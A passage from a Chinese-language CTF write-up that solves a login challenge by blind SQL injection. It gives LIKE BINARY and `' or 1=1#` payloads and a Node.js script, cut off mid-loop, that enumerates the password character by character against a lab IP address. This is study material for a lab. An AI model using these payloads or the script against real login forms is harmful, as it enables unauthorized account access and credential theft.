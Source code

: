 接下來要構造出 like 的 payload 為 `' or password like binary '________'#`  
如果上面成立的話，會回傳 *Invalid Password* 失敗的話則會回傳 *Uknown User*  
根據這兩個結果可以撰寫程式了，這邊會用 node.js 去做列舉  
這邊加上 binary 去強制去使用 CASE SENSITIVE 去做判別  
密碼為: marcelle  
![](/images/ctf/part1-cms-v2-3-06.png)

所以最後 username: `' or 1=1#` password: `marcelle`  
登入後拿到 FLAG!  
![](/images/ctf/part1-cms-v2-3-07.png)

這邊附上程式
```javascript=
const axios = require('axios');
const qs = require('querystring');
(async () => {
    let passwordLength = 8;
    let password = (() => {
        let counter = 0;
        let temp = '';
        while (counter < passwordLength) {
            temp += '_';
            counter++;
        }
        return temp
    })();
    let found = false
    let answer = '';
    let position = 0;
    let allPosibile = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
    while (!found) {
        let tempPassword = password
        for (const char of allPosibile) {
            tempPassword = tempPassword.split("");
            tempPassword[position] = char;
            tempPassword = tempPassword.join("")
            let payload = `' or password like binary '${tempPassword}'#`
            let result = await axios({
                url: 'http://34.74.105.127/58b04db906/login',
                method: 'post',
                headers: {
                    'content-type': 'application/x-www-form-urlencoded'
                },
                data: qs.stringify({
                    username: payload,
                    password: ''
                })
            }).then(response => response.data)
            if (result.includes('Invalid password')) {
                console.log(`${position}: ${char}`);
                answer += char;
                break;
```